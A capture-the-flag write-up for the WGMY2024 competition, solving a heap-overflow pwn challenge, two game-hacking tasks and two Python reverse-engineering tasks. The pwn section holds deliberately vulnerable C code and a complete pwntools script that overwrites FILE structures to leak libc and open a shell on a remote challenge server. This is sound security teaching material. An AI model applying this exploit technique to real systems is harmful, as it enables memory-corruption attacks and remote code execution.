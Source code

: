 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

**Challenge Description** : Use our software to craft your next blockbuster hit!

**Challenge Summary** : This challenge involves overwriting the FILE struct to gain arbitrary read and write

**Author** : Ren

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

```py
fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
```

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

### Side Note

There are multiple ways to solve this challenge, potentially overwriting the return address of read() or overwriting the exit functions handler with a one gadget. I tried both but it didnt work for me so I guess its a skill issue. Though, I was very satisfied with this because its my first time solving a FSOP challenge after reading writeups about it.

## Game/World 1

When saving the game, we get a RMMZSave file which we can edit using this [Save Edit](https://www.saveeditonline.com/)

![image](https://github.com/user-attachments/assets/dcad718c-1093-455f-9ccf-97b2d4f7ccff)

Then, just play the game and one shot the bosses to get all the flag. Flag 1, 2 and 3 is obtainable by killing the boss. Flag 4 can be obtained by killing the lava world boss and walking back out. The flag is written on the floor. The final flag is obtained by unlocking the chest and entering the password "wgmy". Hints about the password is given as "23 7 13 25".

## Game/World 2

Open the apk in APKLab and look for interesting things. One thing I found was the Enemies.json

![image](https://github.com/user-attachments/assets/1129c465-dc52-4921-a649-cdac2b4fed99)

`"params":[600,0,20,20,20,20,20,20]`

I assumed the params are the stats of the monster and just modified the biggest number (assuming to be HP) to 1. Then, recompile the APK and sign it. Then install the game in BlueStacks and play through the game to get all the flags. Flags are obtained in the same way as World 1

## Rev/Stones

Running strings on the file shows that its a python executable

![image](https://github.com/user-attachments/assets/bc14c56f-1ed3-41df-8970-2fe9d6a13a7b)

Use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) on the exe.

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: CHAL-stones.pyc (Python 3.10)

import requests
from datetime import datetime
from urllib.request import urlopen
from datetime import datetime
server_url = 'http://3.142.133.106:8000'
current_time = urlopen('http://just-the-time.appspot.com/')
current_time = current_time.read().strip()
current_time = current_time.decode('utf-8')
current_date = current_time.split(' ')[0]
local_date = datetime.now().strftime('%Y-%m-%d')
# print(current_date)
# print(local_date)
if current_date == local_date:
    print("We're gonna need a really big brain; bigger than his?")
first_flag = 'WGMY{1d2993'
user_date = current_date
params = {
    'first_flag': first_flag,
    'date': user_date }
response = requests.get(server_url, params, **('params',))
if response.status_code == 200:
    print(response.json()['flag'])
#     return None
# None(response.json()['error'])
```

</details>

From the challenge description, theres a `/flag` endpoint on the server so just navigate to `http://3.142.133.106:8000/flag` and the server will respond with a YouTube video link. Send a get request to `http://3.142.133.106:8000` with the date set to the upload date of the YouTube video will give us the flag.

## Rev/Sudoku

Once again, another python executable. Just use pyinstxtractor and pycdc to get the original code back

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: sudoku.pyc (Python 3.11)

import random
alphabet = 'abcdelmnopqrstuvwxyz1234567890.'
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my{[REDACTED]}'

def makeKey(alphabet):
    alphabet = list(alphabet)
    random.shuffle(alphabet)
    return ''.join(alphabet)

key = makeKey(alphabet)

def encrypt(plaintext, key, alphabet):
    pass
# WARNING: Decompyle incomplete

enc = encrypt(plaintext, key, alphabet)
```

</details>

### Solve

<details>
<summary>Solve Script</summary>

```py

```py
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my'
anotherrr = 'z v7o1 an7570 9d.tl3 7.4b 7n2pws .qodx v7oc ye68u m.7r, t728'

# Function to create a mapping from plaintext to anotherr
def create_mapping(plaintext, anotherr):
    # Initialize an empty dictionary to store the character mapping
    char_mapping = {}

    # Iterate over the characters in both strings
    for p_char, a_char in zip(plaintext, anotherr):
        if p_char != ' ' and a_char != ' ':  # Ignore spaces
            char_mapping[p_char] = a_char
    
    return char_mapping

# Create the mapping
mapping = create_mapping(plaintext, anotherrr)
encrypted_message = "t728{09er1bzbs9sx5sosu7719besr39zscbx}"

# Print the character mapping
# print("Character Mapping:")
i = 0
flag = ""
        
print(mapping)

for i in range(len(encrypted_message)):
    for p_char, a_char in mapping.items():
        if a_char == encrypted_message[i]:
            flag += p_char
print(flag)
```
</details>


![image](https://github.com/user-attachments/assets/605fcf21-3a9d-47d3-93f4-cc8227503e88)

Our output is `w.my2ba914045b56c5e58..1b4a593b05746` but since we know the flag format and we know that the hash is hex values, we can just fix the flag to `wgmy{2ba914045b56c5e58ff1b4a593b05746}`
